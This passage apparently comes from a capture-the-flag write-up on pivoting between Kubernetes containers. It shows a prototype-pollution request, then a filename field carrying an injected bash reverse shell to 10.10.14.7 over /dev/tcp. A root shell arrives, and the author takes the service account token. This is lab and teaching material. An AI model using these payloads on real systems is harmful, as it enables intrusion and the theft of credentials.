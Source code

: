     
    
    root@webapp-deployment-5d764566f4-mbprj:/tmp# curl 172.17.0.3:3000
    []
    

#### Exploit

I’ll see if this container is vulnerable to the same exploit I used to get a
foothold. First, add `canUpload`:

    
    
    root@webapp-deployment-5d764566f4-mbprj:/# curl -X PUT http://172.17.0.3:3000/ -H 'Content-Type: application/json' -d '{"auth": {"name": "felamos", "password": "Winter2021"}, "message": {"test": "something", "__proto__": {"canUpload": true}}}'
    {"ok":true}
    

Now inject reverse shell:

    
    
    root@webapp-deployment-5d764566f4-mbprj:/# curl -X POST http://172.17.0.3:3000/upload -H 'Content-Type: application/json' -d '{"auth": {"name": "felamos", "password": "Winter2021"}, "filename": "x; bash -c \"bash >& /dev/tcp/10.10.14.7/443 0>&1\""}'
    

At `nc`, there’s a connection:

    
    
    oxdf@parrot$ nc -lnvp 443
    listening on [any] 443 ...
    connect to [10.10.14.7] from (UNKNOWN) [10.10.10.235] 47198
    id
    uid=0(root) gid=0(root) groups=0(root)
    hostname
    devnode-deployment-cd86fb5c-6ms8d
    

And I’ll upgrade my shell the same as before.

## Shell as root

### Enumeration

#### Inside Container

The namespace associated with this container is, unsurprisingly, dev:

    
    
    root@devnode-deployment-cd86fb5c-6ms8d:/run/secrets/kubernetes.io/serviceaccount# cat namespace   
    dev
    

I’ll grab the `token` for use with the API (the `ca.crt` is the same).

#### API

I’ll do the same `auth can-i --list` commands as before with the new token.
Nothing interesting for the dev namespace:
